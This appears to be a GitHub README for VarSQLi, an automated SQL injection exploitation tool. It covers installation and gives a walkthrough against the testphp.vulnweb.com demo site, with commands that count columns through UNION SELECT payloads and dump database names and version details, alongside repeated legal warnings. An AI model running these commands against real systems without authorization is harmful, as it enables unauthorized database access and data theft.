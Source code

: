 # Variable-SQL-Injection
VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.

<img src='https://raw.githubusercontent.com/Phamchie/varsqli/main/Screenshot_2023-07-27-16-50-24-72.jpg'>

However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

# setup x install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
2. git clone https://github.com/Phamchie/varsqli
3. Navigate to the VarSQLi directory:
4. cd varsql
5. Install the required dependencies by running the setup script:
6. python3 setup.py

<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/Screenshot_2023-07-27-16-53-22-05.jpg">

7. python3 varsqli.py --help

Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

# VarSQLi Check Columns
1. command :
2.  python3 varsqli.py -u <url> --check-columns
3.  more type : python3 varsqli -h for helping

To mine a target I will take my target example https://testphp.vulnweb.com/listproduct?cat=1
 1. For the initial exploit, I use the command ( python3 varsqli.py -u https://testphp.vulnweb.com/listproduct?cat=1 --check-columns ) to check the MySQL columns
 2. After checking, it will bypass the payloads as Union Select 1,2,3
 3. If bypass is successful and get the number of bypass columns, it will display find all columns : ( number columns )
 4. Image : 
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/Screenshot_2023-07-27-17-01-26-25.jpg">

1. Once I got the column count I used the payload as ( python3 varsqli.py -u https://testphp.vulnweb.com/listproduct?cat=1 --check-columns --dump-dbs ) to check the username of the column.  mysql , database name of mysql, version of mysql

<img src="https://github.com/Phamchie/varsqli/blob/main/Screenshot_2023-07-27-17-48-29-99.jpg?raw=true">

1. Then the result is a link with the payload, now I will check it to see if it has any dbs information.
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/Screenshot_2023-07-27-17-52-49-61.jpg">
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/IMG_20230727_175717.jpg">

1. It's great that it succeeded in getting MySQL's dbs information
 
Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
